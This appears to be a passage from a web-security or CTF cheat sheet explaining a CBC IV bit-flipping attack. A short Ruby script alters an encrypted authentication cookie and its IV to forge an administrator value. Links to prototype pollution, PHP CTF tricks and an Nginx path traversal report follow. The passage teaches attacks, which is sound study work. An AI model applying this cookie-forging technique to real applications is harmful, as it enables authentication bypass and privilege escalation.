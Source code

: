 If we can modify the IV value, we are able to change the first block of the cleartext without impacting the signature. The only thing we need to keep in mind is that a **XOR is used between the IV and the first block**. Any modification of the cleartext will need to be XOR'ed with the IV. So if we change the value of the first byte of the first block from a to b, we will need to change the first byte of the IV by XORing with a^b.

Here is the example code:

```ruby
require 'uri'
require 'base64'

iv = "QA2vUfmm%2FNE%3D"
auth = "Y2RtaW5pc3RyYXRvci0tEnzv4HnJXPA%3D"

decoded_iv = Base64.decode64(URI.unescape(iv))
decoded_auth = Base64.decode64(URI.unescape(auth))

# Craft the payload
decoded_iv[0] = ('a'.ord^'c'.ord^decoded_iv[0].ord).chr
decoded_auth[0] = 'a'

new_iv = URI.escape(Base64.strict_encode64(decoded_iv), "+=/")
new_auth = URI.escape(Base64.strict_encode64(decoded_auth), "+=/")

puts("iv = " + new_iv)
puts("auth = " + new_auth)
```




## Other
> - [https://github.com/Kirill89/prototype-pollution-explained](https://github.com/Kirill89/prototype-pollution-explained)
- [https://medium.com/@Asm0d3us/part-1-php-tricks-in-web-ctf-challenges-e1981475b3e4](https://medium.com/@Asm0d3us/part-1-php-tricks-in-web-ctf-challenges-e1981475b3e4)
- [Nginx alias path traversal](https://hackerone.com/reports/312510)
